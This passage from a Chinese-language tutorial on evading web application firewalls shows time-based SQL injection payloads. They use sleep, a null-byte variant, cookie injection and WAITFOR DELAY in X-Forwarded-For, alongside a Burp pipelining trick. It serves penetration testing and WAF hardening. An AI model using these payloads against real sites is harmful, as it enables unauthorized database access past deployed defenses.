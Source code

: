```
?a=1&id=1and sleep(3) 
```

绕过 payload：

```
 ?a=1%00.&id=1and sleep(3)
```

14.   Cookie/X-Forwarded-For 注入绕过
---------------------------------

部分 WAF 可能只对 GET，POST 提交的参数进行过滤，未对 Cookie 或者 X-Forwarded-For 进行检测，可通过 cookie 或者 X-Forwarded-For 提交注入参数语句进行绕过。

正常 payload：

```
GET /index.aspx?id=1+and+1=1 HTTP/1.1<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box;word-wrap: break-word !important;">Host: 192.168.61.175<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box;word-wrap: break-word !important;">...........
```

Cookie: TOKEN=F6F57AD6473E851F5F8A0E7A64D01E28;

绕过 payload：

```
GET /index.aspx HTTP/1.1<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box;word-wrap: break-word !important;">Host: 192.168.61.175<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box;word-wrap: break-word !important;">...........
```

Cookie:TOKEN=F6F57AD6473E851F5F8A0E7A64D01E28; id=1+and+1=1;

X-Forwarded-For:127.0.0.1';WAITFOR DELAY'0:0:5'--

### 15.   利用 pipline 绕过

当请求中的 Connection 字段值为 keep-alive，则代表本次发起的请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止。部分 WAF 可能只对第一次传输过来的请求进行过滤处理。

正常请求被拦截：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwXia9HYcsGEjVVuMaJYsniazicxeqy3tkwBnj1e9ibpvicBibDPqlAVE1b9YA/640?wx_fmt=jpeg)

利用 pipline 进行绕过：

首先关闭 burp 的 Repeater 的 Content-Length 自动更新

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwI7wxia2hlcD4uZdzJHicm7kKloFBFoIJ3aclcDiagThxRhEAnPict9kRLQ/640?wx_fmt=jpeg)

修改 Connection 字段值为 keep-alive，将带有攻击语句的数据请求附加到正常请求后面再发送一遍。

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwOL338Oocib2UUAWX4yXByYYB3YwTU8kg9CKOxmBvqoums2ja1XX8FRQ/640?wx_fmt=jpeg)

### 16.   利用分块编码传输绕过
